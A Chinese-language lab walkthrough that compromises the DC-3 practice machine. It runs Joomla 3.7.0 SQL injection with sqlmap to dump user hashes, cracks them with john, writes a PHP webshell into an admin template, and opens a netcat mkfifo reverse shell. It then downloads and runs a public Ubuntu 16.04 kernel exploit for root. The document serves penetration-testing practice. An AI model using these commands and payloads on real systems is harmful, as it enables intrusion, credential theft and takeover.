

# DC - 3

---

# 一、信息收集

---

先使用arp-scan确定靶机的IP地址，使用命令如下

```bash
arp-scan -l
```

​​

通过扫描结果可以得到靶机的IP为192.168.23.139，接下来使用nmap来扫描靶机开启的端口，使用命令如下

```bash
nmap -A -T 192.168.23.139
```

​​

靶机只开启了HTTP服务，使用浏览器访问靶机IP可以得到其指纹信息为joomla，使用dirsearch扫描靶机目录，使用命令如下

```bash
dirsearch -u 192.168.23.139
```

​​

通过扫描结果发现后台为/administrator，不过目前不知道靶机的登陆信息，想直接用msf来进行漏洞利用，但是这个靶机msf中的漏洞模块都不能进行直接的利用，尝试在exploitdb中搜索到了joomla相关的漏洞，使用命令如下

```bash
searchsploit joomla
```

​​

得到一大堆payload，有点头大，然后搜索发现kali存在一个专门针对它的漏洞扫描工具Joomscan，使用这个工具对网站进行扫描，使用命令如下

```bash
joomscan --url 192.168.23.139
```

​​

# 二、漏洞利用

---

确定版本为3.7.0，使用searchsploit再次搜索相关漏洞，结果如下

​​

查看payload的路径，命令如下

```bash
searchsploit -p 42033.txt
```

​​

打开该文件查看payload的使用方法，如下

​​

直接使用sqlmap进行漏洞利用，命令如下：

1、爆数据库名

```bash
sqlmap -u "http://192.168.23.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

​​

得到数据库名，我们再次查询一下 joomladb数据库的表名

```bash
sqlmap -u "http://192.168.23.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

​​

3、查看users表里的各个字段：

```bash
sqlmap -u "http://192.168.23.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" --columns -p list[fullordering]
```

​​

4、获得表中的账号密码  一般为username,password

```bash
sqlmap -u "http://192.168.23.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" -C "username,password" --dump -p list[fullordering]
```

​​

这是一个MD5+salt的加密，我们使用john去破解一下，如下

```bash
john demo.txt
```

​​

得到密码 snoopy

# 三、反弹shell

---

通过对后台的各种查询，发现Extensions->Templates里面的模板可以执行PHP脚本，我们尝试写入webshell

​​

​​

蚁剑连接成功后反弹shell，使用命令如下

```bash
nc  -lvp 4444
```

```bash
<?php 
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.23.139 4444 >/tmp/f');
?> 

```

​​

​​

# 四、提权

---

发现系统为Ubuntu16.04，使用searchsploit工具查找Ubuntu 16.04的提权漏洞

```bash
cat /etc/issue
```

```bash
searchsploit Ubuntu 16.04
```

​​

查看相关漏洞利用的文件，得到利用poc的下载地址

```bash
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

​​

使用wget命令下载

```bash
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
```

如果无法下载就用浏览器下载也行，下载完成后使用蚁剑上传

​​

```bash
unzip 39772.zip  #解压29772.zip文件
cd 39772
tar -xvf exploit.tar  #解压exploit提权脚本tar包
cd ebpf_mapfd_doubleput_exploit
```

​​

编译代码，编译时会出现warning，可以忽略

​​

执行代码，进行提权，获取root权限

```bash
./doubleput 
```

​​

这时就已经是root权限了

​​

​​
